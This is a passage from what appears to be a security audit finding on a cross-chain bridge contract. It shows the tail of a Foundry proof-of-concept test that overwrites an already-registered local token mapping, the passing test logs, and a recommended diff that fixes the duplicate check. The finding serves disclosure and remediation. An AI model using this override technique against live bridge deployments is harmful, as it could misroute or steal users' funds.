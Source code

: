 ```solidity
        address ftmLocalToken = RootPort(rootPort).getLocalTokenFromGlobal(newGlobalAddress,ftmChainId);
        console2.log("loal Token Address(first): ", ftmLocalToken);

        //3.2 wait some time ,lz execute second local token
        gasParams = GasParams(0.0001 ether, 0.00005 ether);
        newLocalToken = address(0xFA222222);
        data = abi.encode(newGlobalAddress, newLocalToken, "UnderLocal Coin", "UL");
        packedData = abi.encodePacked(bytes1(0x03), data);
        encodeSystemCall(
            payable(ftmCoreBridgeAgentAddress),
            payable(address(coreBridgeAgent)),
            chainNonce[ftmChainId]++,
            packedData,
            gasParams,
            ftmChainId
        );
        //3.2.1 show second local token address
        ftmLocalToken = RootPort(rootPort).getLocalTokenFromGlobal(newGlobalAddress,ftmChainId);
        console2.log("loal Token Address(override): ", ftmLocalToken);        
    }    
```

```console
$ forge test -vvv --match-contract CoreRootBridgeAgentTest  --match-test testAddGlobalTokenOverride

[PASS] testAddGlobalTokenOverride() (gas: 1846078)
Logs:
  New Global Token Address:  0x12Cd3f6571aF11e01137d294866C5fFd1369Bbe9
  loal Token Address(first):  0x00000000000000000000000000000000Fa111111
  loal Token Address(override):  0x00000000000000000000000000000000fA222222
```

### Recommended Mitigation

Check `isGlobalToken()` should replace check `isLocalToken()`.

```diff
    function _setLocalToken(address _globalAddress, address _localAddress, uint16 _dstChainId) internal {
        // Verify if the token already added
-      if (IPort(rootPortAddress).isLocalToken(_localAddress, _dstChainId)) revert TokenAlreadyAdded();
+       if (IPort(rootPortAddress).isGlobalToken(_globalAddress, _dstChainId)) {
+            revert TokenAlreadyAdded();
+       }
        // Set the global token's new branch chain address
        IPort(rootPortAddress).setLocalAddress(_globalAddress, _localAddress, _dstChainId);
    }
```

### Assessed type
